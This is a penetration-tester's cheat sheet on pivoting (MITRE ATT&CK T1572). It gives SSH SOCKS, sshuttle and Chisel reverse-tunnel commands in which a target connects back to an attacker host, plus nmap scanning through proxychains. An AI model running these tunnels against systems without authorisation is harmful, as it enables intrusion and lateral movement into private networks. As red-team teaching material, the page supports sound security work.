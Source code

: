```yaml
---
description: MITRE ATT&CK, Command and Control, Technique T1572
---
```


# Pivoting

### Pivoting with SSH

```bash
# Pivoting with an SSH SOCKS proxy
ssh -D $port -q -C -N parzival@$ip

# Pivoting with SSHuttle 
## https://github.com/sshuttle/sshuttle
sshuttle -vr parzival@$ip $targetSubnet/24
```

### Setting up a SOCKS Proxy with Chisel

1\. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)

> Note, you will need a binary placed on your attacking system and one to be uploaded to the target system.

2\. On the attacking system:

```bash
./chisel server --socks5 --reverse -p 8000
```

3\. On the target system:&#x20;

```bash
.\chisel.exe client $attackerip:8000 R:socks
```

4\. Observe on the attacking system that the SOCKS5 connection has been successfully established.

#### Forwarding One Port with Chisel

1\. On the attacking system:

```bash
./chisel server 9000 -reverse
```

2\. On the target system:&#x20;

```bash
.\chisel client $attackerip:9000 R:$localport:127.0.0.1:$remoteport
```

#### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command:&#x20;

```bash
ss -lnpt | grep $localport
```

#### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running&#x20;

```bash
nmap -sC -sV -p3306 -n localhost
```

### Nmap Scanning through Proxychains

When performing scans on the network through proxychains it is important to use the `-sT` flag. The following command demonstrates an Nmap command to use:

```bash
nmap -sT -Pn -n $port
```

{% hint style="warning" %}
You do not need this if you're utilizing SOCKS5 as it supports both ICMP and DNS.
{% endhint %}

### References

#### SSH

{% embed url="https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d" %}

{% embed url="https://anubissec.github.io/How-To-Pivot-Into-Target-Network-With-SSH/" %}

#### Chisel

{% embed url="https://ap3x.github.io/posts/pivoting-with-chisel" %}

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}
